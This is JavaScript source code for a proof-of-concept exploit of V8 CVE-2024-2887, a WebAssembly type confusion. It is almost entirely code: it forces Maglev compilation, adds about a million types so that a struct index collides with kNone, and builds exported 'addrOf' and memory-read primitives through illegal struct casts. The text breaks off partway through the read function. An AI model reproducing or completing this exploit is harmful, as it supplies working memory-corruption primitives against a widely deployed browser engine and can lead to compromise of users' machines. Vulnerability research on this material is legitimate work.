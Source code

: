 ```js=
d8.file.execute("E:\\CVE-2024-2887\\v8\\wasm-module-builder.js")
// v8 build: a33e9e87328f2d92c6c861a517da661c9f86782a

function dp(obj)    {%DebugPrint(obj);}
function dpp(ptr)   {%DebugPrintPtr(ptr);}

function foo()
{
    return [1.2107019523824e-309, 1.1, 
        2.5, 3.5
    ];
}

for(let i = 0; i < 0x1000; i++) foo(); //trigger maglev in this func


const builder = new WasmModuleBuilder();

let structInt = builder.addStruct([makeField(kWasmI32, true)]);
let structIntRef = builder.addStruct([makeField(wasmRefType(structInt), false)]);
let structIntRefRef = builder.addStruct([makeField(wasmRefType(structIntRef), false)]);
let structExternRef = builder.addStruct([makeField(kWasmExternRef, false)]);

builder.startRecGroup();
for (let i = 0; i < 1000000 - 4; i++)  
{
  builder.addType(kSig_i_iii);
}
builder.endRecGroup();

for (let i = 0; i < 13; i++) {// kNone is at 1000013
    //if (i == 6)
    //    leakStruct = builder.addStruct([makeField(kWasmI32, true), makeField(kWasmI32, true), makeField(kWasmI32, true), //kExtern
    //      makeField(kWasmI32, true), makeField(kWasmI32, true)]);
    //else
        builder.addStruct([makeField(kWasmI32, true)]);
  }

let structAnyRef = builder.addStruct([makeField(kWasmAnyRef, false)]); //kNone 1000013
//let structExternRef2 = builder.addStruct([makeField(kWasmExternRef, false)]); //kNone 1000013


let tmpSig = builder.addType(makeSig([kWasmExternRef], [kWasmI32]));
builder.addFunction('addrOf', tmpSig)
    .addBody([
      kExprLocalGet, 0, //push obj to stack
      kGCPrefix, kExprStructNew, structExternRef, // struct -> obj
      // use `wasmSignedLeb` to wrap a value large than 0xFF
      kGCPrefix, kExprStructNew, ...wasmSignedLeb(structAnyRef), // struct2 -> struct -> obj
      kGCPrefix, kExprRefCast, structIntRef,
      // get the addr of wasmStruct
      kGCPrefix, kExprStructGet, structIntRef, 0, // push struct to stack as a structInt
      kGCPrefix, kExprStructGet, structInt, 0 // get obj
    ]).exportFunc();

let readSig = builder.addType(makeSig([kWasmI32], [kWasmI32]))
builder.addFunction('read4', readSig)
      .addBody([
        kExprLocalGet, 0, //push int to stack
        kExprI32Const, 8,
        kExprI32Sub,
        kGCPrefix, kExprStructNew, structInt, // struct -> int
```